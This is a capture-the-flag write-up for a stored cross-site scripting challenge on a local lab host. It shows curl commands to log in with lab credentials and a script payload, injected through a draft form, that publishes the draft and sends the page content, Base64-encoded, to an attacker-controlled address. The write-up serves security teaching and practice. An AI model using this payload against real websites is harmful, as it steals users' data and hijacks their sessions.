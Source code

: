# XSS Challenge Writeup

## Overview
This challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability in a web application. The goal is to inject a malicious script into the application, which, when executed, allows us to exfiltrate the flag. The application has several endpoints, including a login page, a draft page, and a publish page.

### Vulnerability: Cross-Site Scripting (XSS)
The application allows users to post content, which can include HTML and JavaScript. If an attacker manages to inject a malicious script into the content, they can execute arbitrary JavaScript in the context of another user's session.

## Steps to Exploit the Vulnerability

### 1. **Login to the Application**
The first step is to log in to the application. This can be done by sending a `POST` request to the `/login` endpoint with the username and password. The credentials for this challenge are:
- **Username:** hacker
- **Password:** 1337

```bash
curl -c cookies.txt -X POST http://challenge.localhost/login -d 'username=hacker&password=1337'
````

This request will create a session cookie, which is necessary for maintaining an authenticated session across subsequent requests.

### 2. **Submit a Draft with Malicious Script**

Next, we need to submit a draft with a malicious payload. The goal is to inject a script that will be executed when viewed by the victim. The malicious script will send the contents of the `/publish` endpoint to an external server, allowing us to capture the flag.

The script is injected in the `content` field of the `draft` form:

```html
<script>
  fetch("/publish", {method:"POST"})
    .then(() => fetch("/"))
    .then(r => r.text())
    .then(t => {
      fetch("http://<YOUR-IP>:8000/?flag=" + btoa(t))
    })
</script>
```

This script performs the following steps:

1. It triggers the `/publish` endpoint with a `POST` request, marking the draft as published.
2. It then fetches the content of the main page (`/`), which contains the flag.
3. The flag is then sent to the attacker’s server (`http://<YOUR-IP>:8000/`), encoded in Base64 format.

To inject this payload, send a `POST` request to the `/draft` endpoint with the malicious content:

```bash
curl -b cookies.txt -X POST http://challenge.localhost/draft -d 'content=<script>fetch("/publish", {method:"POST"}).then(()=>fetch("/")).then(r=>r.text()).then(t=>{fetch("http://<YOUR-IP>:8000/?flag="+btoa(t))})</script>&publish=on'
```

### 3. **Exfiltrate the Flag**

Once the malicious script is executed, the flag is sent to the attacker’s server. The flag can then be retrieved from the server where the exfiltration was made.

### 4. **Challenges Faced**

* The main challenge was maintaining the session in the `curl` requests. The browser automatically manages the session, while `curl` requires the user to manually manage session cookies using `-c` (to save cookies) and `-b` (to send cookies) options.
* The 403 Forbidden error was encountered when the session cookie was not correctly passed between requests. This was resolved by ensuring the session cookie was sent with the second `curl` request.

### Conclusion

By exploiting the XSS vulnerability, we were able to inject a script that triggered the publishing of a draft and then exfiltrated the flag. The challenge demonstrated how session management, XSS vulnerabilities, and the use of `curl` for exploiting web applications can work together to compromise the server.
